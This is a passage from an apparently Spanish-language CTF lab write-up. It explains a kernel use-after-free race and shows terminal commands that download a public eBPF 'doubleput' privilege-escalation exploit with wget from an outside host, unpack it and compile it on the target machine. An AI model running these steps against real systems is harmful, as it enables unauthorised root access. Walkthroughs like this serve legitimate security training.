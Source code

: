 _Entonces pones en juego tu intención, haces que en el lugar del alamacén donde estaba la caja, pongan otra, eres listo y sabes que está vacía. Pero te dormiste al duende, él no se ha enterado del cambio y si le pides guardar más items, lo hará, usará la etiqueta vieja y modificará la nueva sin permiso. ¡Ahora ya puedes guardar cosas en donde no tenias permisos! ¿Te gustó?_

Se procederá haciendo un archivo escribible y comenzando una operación de escritura. Antes de que se complete lo anterior, se provoca en el `struct file` sea liberado. Y rápidamente se hace la acción, esperando reutilizar la misma dirección de memoria.

El tiempo se controla con FUSE (sistema de archivos que puede retrasar la lectura de datos). `writev()` y `nmap()` fuerzan un `page fault` para "congelar" al kernel.

#### Ejecución del Exploit
Dentro de la máquina, se visualiza la herramienta de compilación:
```python
SHayslett@red:~$ which gcc
/usr/bin/gcc
SHayslett@red:~$ which make
/usr/bin/make
```
Procedemos a descargar el exploit:
```python
SHayslett@red:~$ wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip -O doubleput.zip
[...]
Saving to: 'doubleput.zip'

doubleput.zip        100%[=====================>]   6.86K  --.-KB/s    in 0s      

2025-05-20 13:25:47 (92.0 MB/s) - 'doubleput.zip' saved [7025/7025]

SHayslett@red:~$ unzip doubleput.zip
Archive:  doubleput.zip
   creating: [...] 
SHayslett@red:~$ ls
39772  __MACOSX  doubleput.zip
```
Se hizo el tratamiento del archivo descargado hasta encontrar el ejecutable
```python
SHayslett@red:~/39772$ tar -xvf exploit.tar 
ebpf_mapfd_doubleput_exploit/
ebpf_mapfd_doubleput_exploit/hello.c
ebpf_mapfd_doubleput_exploit/suidhelper.c
ebpf_mapfd_doubleput_exploit/compile.sh
ebpf_mapfd_doubleput_exploit/doubleput.c

SHayslett@red:~/39772$ ls
crasher.tar  ebpf_mapfd_doubleput_exploit  exploit.tar
SHayslett@red:~/39772$ cd ebpf_mapfd_doubleput_exploit/
```
Se ejecutó el compilador hasta encontrar el `dobleput`
```python
SHayslett@red:~/39772/ebpf_mapfd_doubleput_exploit$ ./compile.sh 
doubleput.c: In function ‘make_setuid’:
doubleput.c:91:13: warning: 
	    [...]
SHayslett@red:~/39772/ebpf_mapfd_doubleput_exploit$ ls
compile.sh  doubleput  doubleput.c  hello  hello.c  suidhelper  suidhelper.c
```
